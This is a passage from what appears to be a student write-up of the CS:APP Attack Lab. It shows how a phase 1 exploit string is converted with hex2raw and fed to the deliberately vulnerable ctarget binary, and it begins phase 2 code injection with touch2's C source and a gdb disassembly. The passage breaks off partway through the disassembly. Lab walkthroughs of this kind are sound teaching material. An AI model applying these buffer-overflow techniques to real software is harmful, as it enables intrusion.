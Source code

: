 When writing the bytes, we need to consider the byte order. My system is a little-endian so the bytes go in reverse order.  

Now run this file through the program hex2raw, which  generates raw exploit strings , and run the raw file

```shell
./hex2raw < atk1.txt > atk1r.txt

./ctarget < atk1r.txt             # use I/O redirection

gdb ctarget                 # within GDB
(gdb) run < atk1r.txt
```

We can get something like below if our solution is right

```shell
Cookie: 0x5f5bd74e                # your cookie will be different
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

<h3 id = "phase2">Phase 2</h3>
Phase 2 involves injecting a small amount of code as part of your exploit string.
Within the file ctarget there is code for a function touch2 having the following C representation:

```c
void touch2(unsigned val){
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

Our task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case,
however, we must make it appear to touch2 as if we have passed your cookie as its argument.

As what we did in phase1, we need to run ctarget executable in gdb and set a breakpoint at getbuf and get the disassembled code of touch2

```
(gdb) disassemble touch2
Dump of assembler code for function touch2:
   0x0000555555555993 <+0>:	sub    $0x8,%rsp
   0x0000555555555997 <+4>:	mov    %edi,%esi
   0x0000555555555999 <+6>:	movl   $0x2,0x202b39(%rip)        # 0x5555557584dc <vlevel>
   0x00005555555559a3 <+16>:	cmp    %edi,0x202b3b(%rip)        # 0x5555557584e4 <cookie>
   0x00005555555559a9 <+22>:	je     0x5555555559d0 <touch2+61>
   0x00005555555559ab <+24>:	lea    0x17a6(%rip),%rdi        # 0x555555557158
   0x00005555555559b2 <+31>:	mov    $0x0,%eax
   0x00005555555559b7 <+36>:	callq  0x555555554e10 <printf@plt>
   0x00005555555559bc <+41>:	mov    $0x2,%edi
   0x00005555555559c1 <+46>:	callq  0x555555555e74 <fail>
   0x00005555555559c6 <+51>:	mov    $0x0,%edi
   0x00005555555559cb <+56>:	callq  0x555555554f60 <exit@plt>
   0x00005555555559d0 <+61>:	lea    0x1759(%rip),%rdi        # 0x555555557130
   0x00005555555559d7 <+68>:	mov    $0x0,%eax
   0x00005555555559dc <+73>:	callq  0x555555554e10 <printf@plt>
   0x00005555555559e1 <+78>:	mov    $0x2,%edi
```